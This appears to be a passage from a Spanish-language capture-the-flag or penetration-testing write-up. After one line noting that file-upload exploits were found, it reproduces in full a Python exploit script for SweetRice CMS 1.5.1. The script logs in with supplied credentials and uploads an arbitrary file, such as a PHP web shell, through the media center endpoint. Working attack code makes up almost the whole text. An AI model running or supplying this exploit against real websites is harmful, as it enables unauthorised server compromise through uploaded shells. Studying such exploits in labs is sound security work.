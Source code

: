 Observamos unos exploits que nos permite la subida de archivos; así que vamos a echarles un ojo:

```bash
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016
# Vendor: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1
# Platform: WebApp - PHP - Mysql

import requests
import os
from requests import session

if os.name == 'nt':
    os.system('cls')
else:
    os.system('clear')
    pass
banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \\ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \\     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

print(banner)


# Get Host & User & Pass & filename
host = input("Enter The Target URL(Example : localhost.com) : ")
username = input("Enter Username : ")
password = input("Enter Password : ")
filename = input("Enter FileName (Example:.htaccess,shell.php5,index.html) : ")
file = {'upload[]': open(filename, 'rb')}

payload = {
    'user':username,
    'passwd':password,
    'rememberMe':''
}

with session() as r:
    login = r.post('http://' + host + '/as/?type=signin', data=payload)
    success = 'Login success'
    if login.status_code == 200:
        print("[+] Sending User&Pass...")
        if login.text.find(success) > 1:
            print("[+] Login Succssfully...")
        else:
            print("[-] User or Pass is incorrent...")
            print("Good Bye...")
            exit()
            pass
        pass
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
```